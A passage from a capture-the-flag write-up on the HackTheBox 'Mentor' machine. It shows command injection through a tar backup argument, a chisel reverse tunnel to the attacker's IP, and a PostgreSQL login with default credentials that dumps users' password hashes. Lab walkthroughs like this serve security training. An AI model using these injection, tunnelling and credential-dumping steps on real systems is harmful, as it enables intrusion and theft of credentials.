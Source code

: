 The backup function doesnot sanitize the input as the application trusts the admin to have access, so if an attacker could get admin privellegs he would be able to run anything as a command.

`tar -c -f <attacker's command> / app_backup.tar /path/to/WORK_DIR &`

```bash
hax-13@ZARB:/opt/Tools$ tar -c -f `/tmp;sleep 4`
bash: /tmp: Is a directory
tar: option requires an argument -- 'f'
Try 'tar --help' or 'tar --usage' for more information.
```

This would result in delay of 4 seconds, just run the command in your own terminal. That's how we got RCE on the system.

## PRIVILLEGE ESCALATION\[SVC]:

After analyzing source code, found some information about database.

After analysing source code, found some information about database.

```python
# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
```

The databse is running on host system. So its port number will not be found by linpeas. So found the portnumber used by postgress is `5432`. So Lets Port Forward this portnumber.

`./chisel client -v 10.10.16.15:6543 R:5433:172.22.0.1:5432`

```bash
/tmp # ./chisel client -v 10.10.16.15:6543 R:5433:172.22.0.1:5432
2023/01/11 09:17:21 client: Connecting to ws://10.10.16.15:6543
2023/01/11 09:17:23 client: Handshaking...
2023/01/11 09:17:26 client: Sending config
2023/01/11 09:17:26 client: Connected (Latency 307.731348ms)
2023/01/11 09:17:26 client: tun: SSH connected

```

```bash
hax-13@ZARB:~/Documents/ctfs/htb/medium/Mentor-10.10.11.193$ psql -h 127.0.0.1 -p 5433 -d mentorquotes_db -U postgres
Password for user postgres: 
psql (14.5 (Ubuntu 14.5-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
Type "help" for help.

mentorquotes_db-# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db-# select * from users;
ERROR:  syntax error at or near "?"
LINE 1: ?
        ^
mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

```